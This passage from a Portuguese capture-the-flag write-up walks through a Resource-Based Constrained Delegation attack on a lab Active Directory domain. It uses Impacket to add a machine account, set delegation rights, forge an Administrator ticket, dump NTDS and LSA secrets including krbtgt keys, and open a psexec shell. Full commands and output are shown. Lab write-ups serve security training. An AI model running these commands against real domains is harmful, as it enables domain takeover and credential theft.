Esse será o computador "malicioso", do qual controlará a delegação
```
arthur-strelow@ubuntu-star:~$ addcomputer.py K2.THM/o.armstrong:'arMStronG08' -dc-ip 10.10.107.33 -computer-name RBCDPC$ -computer-pass 'Passw0rd123!'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account RBCDPC$ with password Passw0rd123!.
```

| **Parâmetro**                      | **Significado**                                                       |
| ---------------------------------- | --------------------------------------------------------------------- |
| `K2.THM/o.armstrong:'arMStronG08'` | Credenciais do usuário com permissão de adicionar máquinas            |
| `-dc-ip 10.10.107.33`              | IP do **Domain Controller**                                           |
| `-computer-name RBCDPC$`           | Nome do novo computador a ser criado (o `$` indica que é uma máquina) |
| `-computer-pass 'Passw0rd123!'`    | Senha definida para essa nova máquina                                 |

### 6.2.2 Configurando o campo `ms-DS-AllowedToActOnBehalfOfOtherIdentity` no DC
Esse campo fica no objeto do **computador-alvo (DC)** e define quais entidades podem fazer RBCD nele.

```
arthur-strelow@ubuntu-star:~$ rbcd.py -delegate-from RBCDPC$ -dc-ip 10.10.107.33 -action 'write' K2.THM/o.armstrong:'arMStronG08' -delegate-to K2ROOTDC$

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] RBCDPC$ can now impersonate users on K2ROOTDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     RBCDPC$      (S-1-5-21-1966530601-3185510712-10604624-1116)
```

| **Parâmetro**                      | **Significado**                                                                                       |
| ---------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `-delegate-from RBCDPC$`           | Nome do **computador malicioso** (que foi criado com o `addcomputer.py`) que vai **usar a delegação** |
| `-dc-ip 10.10.107.33`              | IP do Domain Controller (DC)                                                                          |
| `-action 'write'`                  | Define que você deseja **escrever a delegação** (poderia ser `read`, `remove`, etc.)                  |
| `K2.THM/o.armstrong:'arMStronG08'` | Credenciais do usuário que possui `GenericWrite` sobre o objeto do DC                                 |
| `-delegate-to K2ROOTDC$`           | Nome do **Domain Controller** (objeto de computador no AD) que você quer delegar o acesso             |
 
### 6.2.3 Descobrindo SPN (Service Principal Name) no alvo.  
É necessário saber o **SPN (Service Principal Name)** associado ao serviço do Domain Controller.

Uma forma de obter esse SPN é usando o BloodHound, onde é possível visualizar os SPNs vinculados a máquinas ou usuários.

Outra forma é utilizando o `GetUserSPNs.py`, do Impacket:
`GetUserSPNs.py K2.THM/o.armstrong:'arMStronG08' -dc-ip 10.10.107.33`

Caso não apareça nenhum SPN associado diretamente a um usuário, você ainda pode usar SPNs **comuns do DC**, como:
- `cifs/k2rootdc.k2.thm`
- `ldap/k2rootdc.k2.thm`
- `host/k2rootdc.k2.thm`

Esses SPNs podem ser utilizados normalmente para forjar um **TGS com `getST.py`** no ataque de RBCD.

### 6.2.4 Obtendo Ticket personificado
Agora é hora de obter o **ticket de serviço personificado** com o usuário `Administrator`.

```
arthur-strelow@ubuntu-star:~$ getST.py -spn 'cifs/K2ROOTDC.K2.THM' -impersonate Administrator -dc-ip 10.10.107.33 'K2.THM/RBCDPC$:Passw0rd123!'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
	[*] Requesting S4U2self
	[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_K2ROOTDC.K2.THM@K2.THM.ccache
```

| **Parâmetro**                   | **Significado**                                                                          |
| ------------------------------- | ---------------------------------------------------------------------------------------- |
| `-spn 'cifs/K2ROOTDC.K2.THM'`   | SPN (Service Principal Name) do serviço alvo, neste caso o **CIFS do DC**                |
| `-impersonate Administrator`    | Usuário alvo da **personificação (impersonation)** — você está assumindo o Administrator |
| `-dc-ip 10.10.107.33`           | IP do Domain Controller (KDC)                                                            |
| `'K2.THM/RBCDPC$:Passw0rd123!'` | Credenciais da **máquina com permissão de delegação** configurada via RBCD               |


Usando o `ccache` para executar ações como se fosse o `Administrator`.

### 6.2.5 Obtendo acesso ao sistema
#### 6.2.5.1 Uso do `secretsdump` para extração de credenciais

O `secretsdump.py` tem o objetivo principal objetivo de fazer **dump de credenciais** (`SAM, LSA Secrets, NTDS`) de um host remoto.

**Comando:**  `secretsdump.py -k -target-ip 10.10.107.33 K2ROOTDC.k2.thm`

> [!Observação]
> O parâmetro `-k` no `secretsdump.py` é usado para **autenticação via Kerberos usando o ticket já existente no cache**, ao invés de solicitar senha ou hash.

```
arthur-strelow@ubuntu-star:~/Downloads/k2$ secretsdump.py -k -target-ip 10.10.107.33 K2ROOTDC.k2.thm

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
K2\K2ROOTDC$:plain_password_hex:4fe14a1a537356d42c20143aa65201cec9587b77ab993219dcac4e7c7bff73978a6249f3216a839668defcd1e2eb1086536cfbd46f6d3ad1acd61cad8d632b5dfced4d39e9281f6bb5136f367c68e403223993a94a6dd63afc4a6f097da5804ec6da0db57e1e58b7aa5d0a9d52d55effb2f8e75590d2a66822023844dd1e5cf73380ab993f7e0e3a4305603147fd45fb504d676262dfa3692b883c6246b6b6eb8d97d8dc7d8c98a91e70c7cc07dd3f1cf2060c9691ee9d3b48d7cbedc210bad74c944afbf85cd3a5c7afd7cef7df65e0b6fd0c4329b09ca55bbeb5c7002d37b41b5d365c410736ac1ff6438230394fd2
K2\K2ROOTDC$:aad3b435b51404eeaad3b435b51404ee:6708bec281a27eee7a084afb524aa923:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x0e88ce11d311d3966ca2422ac2708a4d707e00be
dpapi_userkey:0x8b68be9ef724e59070e7e3559e10078e36e8ab32
[*] NL$KM 
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5dea71ff019233bdca7ec46510727632:::
j.smith:1111:aad3b435b51404eeaad3b435b51404ee:9545b61858c043477c350ae86c37b32f:::
o.armstrong:1113:aad3b435b51404eeaad3b435b51404ee:6cc089ba579e04d4f44a468b6ad1c409:::
K2ROOTDC$:1008:aad3b435b51404eeaad3b435b51404ee:6708bec281a27eee7a084afb524aa923:::
RBCDPC$:1116:aad3b435b51404eeaad3b435b51404ee:ab4f5a5c42df5a0ee337d12ce77332f5:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:8044ea734b80475d2998673ded8036645d83ec115abc14f1990bb8e6c38f3d67
Administrator:aes128-cts-hmac-sha1-96:524c729d15c411121eb773246cdcaff5
Administrator:des-cbc-md5:80d56ebff2c26dd0
krbtgt:aes256-cts-hmac-sha1-96:10e96d99d70a03db0d17a30bda313478b4873d29e3e767474142453ab2228713
krbtgt:aes128-cts-hmac-sha1-96:2999ff505aeed39ecdb5a370bc4719fc
krbtgt:des-cbc-md5:c2764ff131daec0d
j.smith:aes256-cts-hmac-sha1-96:ac9fdf934fd59400501a4774d56183eead48e1a975e75ba26f44b0c9fa4c1661
j.smith:aes128-cts-hmac-sha1-96:8e0fa34388c02a18d25a7567043cb0d7
j.smith:des-cbc-md5:ad40dc972a1c200d
o.armstrong:aes256-cts-hmac-sha1-96:3daff62c48e70a8a149ecd65ffed7e1246caafc948dbcf3713ceb29a0086252e
o.armstrong:aes128-cts-hmac-sha1-96:8ea4d2e742ed8755597548060ad845a4
o.armstrong:des-cbc-md5:64ae4ce3df9e855b
K2ROOTDC$:aes256-cts-hmac-sha1-96:7bcff1b79b5bbfdd0ea64d45e5d15f577217b696bab236bd400c597b1754aba4
K2ROOTDC$:aes128-cts-hmac-sha1-96:22bbecb45342a603ca22c5db9780ab50
K2ROOTDC$:des-cbc-md5:ab34a8d59d102a7c
RBCDPC$:aes256-cts-hmac-sha1-96:46e159b397f7a5ddf93db1ef1cc35c8827b414603d94d32c72fb8492828b1a84
RBCDPC$:aes128-cts-hmac-sha1-96:97b0955bec62f147c3ea37de4bf8a014
RBCDPC$:des-cbc-md5:0d04d54f45ab1357
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```


> [!HASH do Administrator encontrada]
> Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::


#### 6.2.5.2 Alternativo: Uso do `psexec` para obtenção de shell remota

Comando: `psexec.py -k -no-pass K2.THM/Administrator@K2ROOTDC.K2.THM`

- O `psexec.py` permite obter uma **shell interativa remota** via SMB/RPC, geralmente com privilégios SYSTEM.

- Ideal quando você quer **interagir com o sistema**, como:
    - Executar comandos
    - Mover/copiar arquivos
    - Enumerar diretórios

- Ele utiliza a interface `svcctl` (Service Control Manager) para:
    - Criar um serviço temporário
    - Executar o comando desejado no contexto do serviço

# 7. Acima do `Administrator`, mas ninguém

Uma vez dentro do sistema como Administrador, temos permissão para realizar qualquer ação. Localizei a flag na área de trabalho (“Desktop”). A partir desse ponto, temos diversas possibilidades para manter a persistência, como criar um novo usuário com permissões administrativas, entre outras ações.


